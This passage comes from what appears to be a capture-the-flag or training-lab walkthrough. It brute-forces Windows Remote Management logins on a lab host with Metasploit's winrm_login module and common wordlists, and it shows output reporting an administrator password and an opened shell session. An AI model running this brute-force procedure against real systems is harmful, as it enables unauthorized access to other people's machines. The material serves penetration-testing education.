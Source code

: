 #### **🔍 What This Tells Us:**
- **Basic Authentication** - Simple username/password login
- **Negotiate Authentication** - More complex Windows authentication
- **Both methods work** - We can try password attacks
- **Service is responsive** - WinRM accepts our connection attempts

#### **Attack Strategy:**
Since Basic authentication is supported, we can try brute force attacks with username and password lists.

---

### **Step 3: Attack Passwords (Brute Force)**

**What We're Doing:** Trying many username and password combinations to find valid credentials

#### **Commands Used:**
```bash
use auxiliary/scanner/winrm/winrm_login
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set PASSWORD anything
exploit
```

#### **🔧 Command Explanation:**
- **use auxiliary/scanner/winrm/winrm_login** - Choose the password attack module
- **set RHOSTS demo.ine.local** - Tell it which target to attack
- **set USER_FILE** - Use a list of common usernames
- **set PASS_FILE** - Use a list of common passwords
- **set VERBOSE false** - Don't show every failed attempt (reduces noise)
- **set PASSWORD anything** - Backup password setting (technical requirement)

#### **🎉 Success! What Happened:**
```bash
msf6 auxiliary(scanner/winrm/winrm_login) > exploit

[+] 10.0.28.252:5985 - Login Successful: WORKSTATION\administrator:tinkerbell
[*] Command shell session 1 opened (10.10.31.2:39523 -> 10.0.28.252:5985)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### **🔓 What We Found:**
- **Username:** administrator (the Windows admin account)
- **Password:** tinkerbell (a weak password!)
- **Domain:** WORKSTATION (the computer name)
- **Shell Session:** We got command access

#### **Why This Worked:**
The system had weak credentials. "tinkerbell" is a simple password that appears in common password lists.

---